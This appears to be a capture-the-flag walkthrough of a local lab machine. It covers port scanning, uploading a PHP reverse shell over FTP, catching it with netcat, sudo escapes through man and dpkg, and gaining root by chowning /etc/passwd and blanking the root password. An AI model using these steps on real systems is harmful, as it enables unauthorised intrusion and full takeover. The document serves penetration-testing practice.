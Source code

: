 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)

We see what appears to be files from a web page, there's a very interesting directory called "upload". We may need to upload some file to create a reverse shell.

## Examining the Web Page and Its Infrastructure
If we examine the page, we find the following:

![alt text](Imagenes/Anon_2.png)

The most important thing in the bar is the "Access backend" menu. If we click on it, it takes us to the upload folder:

## Intrusion

For the intrusion, I used this GitHub script from "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Therefore, I used the ftp tool to upload the reverse.php file, configuring our IP and our port, and using the netcat tool to make the connection.

![alt text](Imagenes/Anon_3.png)

If we listen on port 1234 with netcat and execute the .php file in the browser, it returns the shell

```ruby
nc -lvnp 1234
```

![alt text](Imagenes/Anon_4.png)

Therefore, we are authenticated as the "data" user

# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Privilege Escalation

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Therefore, if we execute the following command, we can do it as the pingu user

```ruby
sudo -u pingu man man
```

Inside the manual, we can execute the following:

```ruby
!/bin/bash
```

We see that we change users and access as pingu

![alt text](Imagenes/Anon_5.png)

If we execute the previous order, we see new commands that we can execute as the gladys user

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

If we go to the GTObins page, we see that we can exploit it in the following way:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

We gain access with the "gladys" user in a similar way to the previous one.

![alt text](Imagenes/Anon_6.png)


If we execute the `sudo -l` command again

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```

To do this escalation, we can do it in several ways. The simplest way is to try to edit the `/etc/passwd` file, removing the check when the root user's password is requested.

For this, we have to give permission to the gladys user and then overwrite the file

```ruby
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

Then with the `sed` tool we remove the "x" character that is in the root line, we create a temporary file in /tmp.

```ruby
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Finally, we overwrite the `/etc/passwd` file

```ruby 
cp /tmp/passwd.tmp /etc/passwd
```

![alt text](Imagenes/Anon_7.png)